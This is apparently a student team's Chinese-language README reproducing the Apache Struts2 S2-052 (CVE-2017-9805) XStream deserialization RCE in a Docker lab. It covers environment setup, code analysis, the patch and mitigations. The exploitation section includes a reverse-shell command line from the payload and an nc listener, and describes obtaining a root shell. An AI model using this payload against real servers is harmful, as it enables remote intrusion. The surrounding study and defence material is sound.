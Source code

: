 # Apache Struts2 S2-052(CVE-2017-9805)远程代码执行漏洞

## 0x00 漏洞描述

`Apache Struts`是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级`Java Web`应用的开源MVC框架。

`Struts2`是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，`Struts2`作为控制器(Controller)来建立模型与视图的数据交互

2017年9月5日，Apache Struts发布最新安全公告，Apache Struts2的`REST`插件存在远程代码执行的高危漏洞，该漏洞由lgtm.com的安全研究员汇报，漏洞编号为CVE-2017-9805（S2-052）。

Github项目地址: [Vancir/s2-052-reproducing](https://github.com/Vancir/s2-052-reproducing)

## 0x01 漏洞影响

启用Struts REST插件并使用XStream组件对XML进行反序列操作时，未对数据内容进行有效验证，可被攻击者进行远程代码执行攻击(RCE)。

实际场景中存在一定局限性，需要满足一定条件，非struts本身默认开启的组件。

### 影响版本

* Version 2.5.0 to 2.5.12
* Version 2.1.2 to 2.3.33

## 0x02 环境搭建

* Ubuntu 14.04.5
* JDK 8u151
* Struts 2.5.12
* Apache Tomcat 8.0.46

通过建立docker容器来搭建实验环境，保证复现过程的安全性和便
携性。在docker环境中部署好Apache Tomcat，Struts 2以及Java等基础环境。

* 运行以下命令拉取docker镜像

``` bash
sudo -s # docker 需要以root身份运行
docker pull vancir/s2-052 # 从docker cloud上拉取仓库vancir/s2-052到本地
```

* 或使用dockerfile手动生成docker镜像

由于`JDK 8u151`文件较大，因此首先需要使用者从[Oracle官网](http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)下载并移动到`src`文件夹下(md5sum: `774d8cb584d9ebedef8eba9ee2dfe113`  jdk-8u151-linux-x64.tar.gz)。

然后切换到dockerfile文件所在路径，运行以下命令

``` bash
docker build -t="vancir/s2-052" .
```

* 创建并运行docker容器

``` bash
docker run --name demo -d -p 80:8080 vancir/s2-052 
```

`--name`选项设置docker容器的名称为demo，`-d`选项设置容器在后台运行，`-p`选项设置容器内8080端口映射为本地的80端口，`vancir/s2-052`是我们的docker镜像

docker容器运行完成后，访问`http://localhost`观察到如下页面，即完成实验环境的搭建步骤。

![tomcat.png](/src/tomcat.png)

## 0x03 漏洞攻击复现

### 使用burpsuite直接发送恶意xml

接下来我们就要使用burpsuite发送恶意xml给服务器并反弹一个shell。

首先打开`burp suite`(需到[官网](https://portswigger.net/burp/freedownload)下载安装)，切换到`Repeater`选项卡

将`payload.xml`里的内容全部复制粘贴到`Request`内容框中，并设置右上角的`Target`为`127.0.0.1:80`

这里需要对`payload.xml`的以下内容进行改动，以保证服务器反弹的shell能被我们接收到。

``` xml
<string>bash -i &gt;&amp; /dev/tcp/10.30.178.227/8001 0&gt;&amp;1</string>
```

这条命令为我们反弹一个shell回来。你需要将`10.30.178.227`设置为你本机的IP，`8001`是反弹到你本机的端口号

![burp.png](/src/burp.png)

打开终端，使用`NetCat`监听本地端口`8001`

``` bash
nc -l -p 8001
```

现在`NetCat`正在监听本机的8001端口，我们点击`burp suite`左上方的`Go`按钮提交request，服务器会返回一个responce，同时我们也监听到了一个shell

![nc.png](/src/nc.png)

如图，我们获取了一个root身份的shell，通过shell我们可以执行任意指令(如图`cat /etc/passwd`). 至此漏洞攻击复现完毕。

## 0x04 漏洞分析

漏洞分析部分包括`代码审计`部分以及`补丁分析`部分。

针对Java反序列化漏洞进行探究，明确漏洞原理，漏洞危害等。同时分析Apache Sturts 2.5.13及以上版本中对于该漏洞代码的补丁。

### 漏洞代码

``` java
// filepath: src/plugins/rest/src/main/java/org/apache/struts2/rest/ContentTypeInterceptor.java
public String intercept(ActionInvocation invocation) throws Exception {
    HttpServletRequest request = ServletActionContext.getRequest();
    ContentTypeHandler handler = selector.getHandlerForRequest(request);
    
    Object target = invocation.getAction();
    if (target instanceof ModelDriven) {
        target = ((ModelDriven)target).getModel();
    }
    
    if (request.getContentLength() > 0) {
        InputStream is = request.getInputStream();
        InputStreamReader reader = new InputStreamReader(is);
        handler.toObject(reader, target);
    }
    return invocation.invoke();
}
```
其中的关键漏洞代码在以下：
``` java
InputStream is = request.getInputStream();
InputStreamReader reader = new InputStreamReader(is);
handler.toObject(reader, target);
```

## 0x05 漏洞修复情况

新版本中增加了`XStreamPermissionProvider`，并且对原先有问题的`createXStream`进行重写，增加了校验，拒绝不安全的类执行

## 0x06 Struts 2过往漏洞情况

Apache Struts 2漏洞频发，过往有大量的该产品的漏洞预警。安全分析人士甚至编写有Struts2全漏洞检测脚本。通过对往期Struts2漏洞，分析Struts2常见的攻击方式并总结Struts2的一些修复建议。

## 0x07 S2-052 修复建议

* 升级至`Struts 2.5.13`或`Struts 2.3.34`版本
* 在不使用时移除移除`Struts REST`插件
* 限制REST插件仅处理服务器正常页面和JSON文件
    1. 禁用XML页面处理并限定为以下页面
    ```java
    <constant name="struts.action.extension" value="xhtml,,json" />
    ```
    2. 重载`XStreamHandler`里的`getContentType`方法
    ``` java
    public class MyXStreamHandler extends XStreamHandler { public String getContentType() {
        return "not-existing-content-type-@;/&%$#@";
        }
    }
    ```    
    3. 通过重载struts.xml里的框架来注册处理程序
    ```java
    <bean type="org.apache.struts2.rest.handler.ContentTypeHandler" name="myXStreamHandmer" class="com.company.MyXStreamHandler"/>
    <constant name="struts.rest.handlerOverride.xml" value="myXStreamHandler"/>
    ```
* 在XStreamHandler中进行数据校验或检查

## 0xEE 人员分工

* 组长-陈洪杰：负责项目进度监督，任务调整以及漏洞的深入分析
* 刘松：负责搭建漏洞复现环境，并对漏洞代码以及补丁进行分析
* 林颖萱：负责收集过往Struts2的漏洞分析文章，利用代码及防御策略等
* 李金航：负责收集s2-052漏洞的技术分析文章，利用代码及防御策略等

## 0xFF 参考资料
1. [Using QL to find a remote code execution vulnerability in Apache Struts (CVE-2017-9805)](https://lgtm.com/blog/apache_struts_CVE-2017-9805)

2. [Apache Struts 2 Documentation - Security Bulletins - S2-052](https://cwiki.apache.org/confluence/display/WW/S2-052)

3. [Metasploit Modules Related To CVE-2017-9805](https://www.rapid7.com/db/modules/exploit/multi/http/struts2_rest_xstream)

4. [Oracle Security Alert Advisory - CVE-2017-9805](http://www.oracle.com/technetwork/security-advisory/alert-cve-2017-9805-3889403.html)
 